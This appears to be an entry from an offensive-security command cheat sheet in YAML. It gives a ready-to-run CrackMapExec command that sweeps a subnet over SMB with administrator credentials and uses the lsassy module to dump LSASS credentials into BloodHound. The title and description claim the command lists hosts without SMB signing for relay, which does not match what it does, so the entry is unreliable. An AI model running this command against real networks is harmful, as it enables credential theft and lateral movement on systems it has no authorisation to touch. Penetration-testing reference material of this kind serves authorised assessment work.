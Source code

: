 ```yaml
---
title: |
  Create a list of targets with SMB Signing disabled (required to relay)
description: |
  "CrackMapExec (a.k.a CME) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks." - https://github.com/byt3bl33d3r/CrackMapExec/wiki. This command will enumerate domain groups, local groups, logged on users, relative identifiers (RIDs), sessions, domain users, SMB shares/permissions, and get the domain password policy. Create a list of targets with SMB Signing disabled (required to relay).

  Command Reference:

  	Target: 10.0.0.0/24

    Domain: test.local

    User: Administrator

    Password: Welkom01!

    Method: lsassy
command: |
  crackmapexec smb 10.0.0.0/24 -d test.local -u Administrator -p Welkom01! -M lsassy -o BLOODHOUND=True NEO4JPASS=bloodhound
items:
  - Username
  - Password
services:
  - SMB
OS:
  - Linux
attack_types:
  - Enumeration
references:
  - https://github.com/byt3bl33d3r/CrackMapExec
  - https://github.com/byt3bl33d3r/CrackMapExec/wiki
---
```

